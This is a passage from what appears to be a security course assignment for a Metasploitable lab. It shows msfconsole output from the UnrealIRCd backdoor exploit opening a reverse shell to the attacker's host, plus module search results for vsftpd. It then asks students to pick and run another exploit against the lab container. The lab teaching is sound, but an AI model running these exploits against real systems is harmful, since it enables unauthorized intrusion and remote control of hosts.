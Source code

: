 The output from the last `exploit` is:

```
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.100.102:4444 
[*] 192.168.100.3:6667 - Connected to 192.168.100.3:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.100.3:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo FUkOSc1MRDhkbUwW;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.100.102:4444 -> 192.168.100.3:45318) at 2024-01-30 10:22:37 -0500


Shell Banner:
FUkOSc1MRDhkbUwW
-----
```

At this point, we can type in any command (`whoami`, `pwd`, `ls`, etc.), and it will run that on *metasploit*.


### One more

The final part of this assignment is for you to pick an exploit.  Pick a service or port on *metasploit* that you want to attack.  You can't pick the two services that we used as examples here (vsFTPd or UnrealIRCd).  Scan the *metasploit* container with the nmap command shown above.  Given the version of the service, as well as the other information that `nmap` provides, look up the exploit via `searchsploit`.  Then you can execute it in `msfconsole`.  The intent of this part is for you to use the exploit in `msfconsole`, not to write one of your own.  Your exploit does not have to be a shell, just something that makes use of a vulnerability in the *metasploit* container.  Note that `msfconsole` has many (thousands?) of exploits, but not all work on *metasploit*.  You need to check the versions, described above, to see which ones work.

Whatever exploit you choose, you will need to copy the module name and description.  For example, in the vsFTPd example from above, `msfconsole` output the following:

```
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > 
```
